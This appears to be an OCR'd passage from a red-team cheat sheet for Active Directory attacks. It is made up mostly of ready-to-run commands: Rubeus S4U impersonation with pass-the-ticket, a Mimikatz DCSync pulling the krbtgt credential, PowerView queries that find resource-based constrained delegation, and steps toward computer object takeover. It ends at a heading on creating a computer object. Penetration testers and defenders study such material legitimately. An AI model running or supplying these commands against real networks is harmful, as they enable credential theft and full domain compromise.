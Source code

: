 ````
.\Rubeus.exe s4u /impersonateuser:<USER> /msdsspn:cifs/<FQDN COMPUTER> /user:<COMPUTER>$ /rc4:<NTLM> /altservice:<SECOND SERVICE> /ptt 
```

#### Check access on target machine
```
ls \\<FQDN>\c$
Enter-PSSession -ComputerName <FQDN>
 .\PsExec64.exe \\<COMPUTERNAME> cmd
```

#### Run DCSync to get credentials:
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<DOMAIN>"'
```

### Resource Based Constrained Delegation
#### Check if there are computers with RBCD configured
- If you own the object that has RBCD you can own the target object
```
Get-DomainComputer | Where-Object -Property msds-allowedtoactonbehalfofotheridentity | Select-Object samaccountname, msds-allowedtoactonbehalfofotheridentity
```

#### Check to where it is refering too
```
$RawBytes = Get-DomainComputer <TARGET COMPUTER> -Properties 'msds-allowedtoactonbehalfofotheridentity' | Select-Object -ExpandProperty msds-allowedtoactonbehalfofotheridentity
(New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl
Get-DomainObject <SID>
```

### Computer object takeover
- Requirements:
  - An account with a SPN associated (or able to add new machines accounts (default value this quota is 10))
  - A user with write privileges over the target computer which doesn't have msds-AllowedToActOnBehalfOfOtherIdentity
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution

#### Check if domain controller is atleast Windows Server 2012
```
Get-DomainController
```

#### Check if target doesn't have msds-AllowedToActOnBehalfOfOtherIdentity
```
Get-DomainComputer <COMPUTERNAME> | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

#### Get access to a user or computer with SPN set
- If not already owned a user or computer with a SPN, Create a computer object!

#### Check who can add computers to the domain
```
(Get-DomainPolicy -Policy DC).PrivilegeRights.SeMachineAccountPrivilege.Trim("*") | Get-DomainObject | Select-Object name

Get-DomainObject | Where-Object ms-ds-machineaccountquota | select-object ms-ds-machineaccountquota
```

#### Create a new computer object
````